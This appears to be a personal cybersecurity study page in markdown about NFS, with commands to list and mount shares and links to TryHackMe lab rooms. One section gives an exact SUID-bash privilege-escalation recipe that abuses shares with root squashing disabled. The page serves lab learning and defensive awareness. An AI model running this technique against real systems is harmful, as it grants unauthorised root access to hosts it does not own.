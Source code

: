 # Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

<div class="row row-cols-lg-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

Remote Procedure Calls (RPC) are used to exchange with the server.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
#  sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ -nolock
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-lg-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

NFS

* nfs-utils
* rpcinfo
* nfsstat
* nfswatch
* DoS
</div><div>
</div></div>